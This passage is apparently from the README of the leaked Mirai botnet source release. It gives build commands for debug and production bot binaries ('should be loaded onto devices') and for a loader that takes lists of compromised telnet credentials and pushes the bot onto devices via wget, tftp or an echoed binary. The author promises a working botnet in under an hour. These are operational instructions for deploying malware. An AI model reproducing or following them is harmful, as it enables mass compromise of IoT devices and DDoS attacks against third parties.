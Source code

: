 ### How to build bot + CNC

In mirai folder, there is [`build.sh`](mirai/build.sh) script.

    ./build.sh debug telnet

Will output debug binaries of bot that will not daemonize and print out info
about if it can connect to CNC, etc, status of floods, etc. Compiles to
`./mirai/debug` folder

    ./build.sh release telnet

Will output production-ready binaries of bot that are extremely stripped, small
(about 60K) that should be loaded onto devices. Compiles all binaries in format:
`mirai.$ARCH` to `./mirai/release` folder


# Building Echo Loader

Loader reads telnet entries from STDIN in following format:

    ip:port user:pass

It detects if there is wget or tftp, and tries to download the binary using
that. If not, it will echoload a tiny binary (about 1kb) that will suffice as
wget.

    ./build.sh

Will build the loader, optimized, production use, no fuss. If you have a file in
formats used for loading, you can do this

    cat file.txt | ./loader

Remember to `ulimit`!

Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit,
too much time. All scripts and everything are included to set up working botnet
in under 1 hours. I am willing to help if you have individual questions (how
come CNC not connecting to database, I did this this this blah blah), but not
questions like "My bot not connect, fix it"
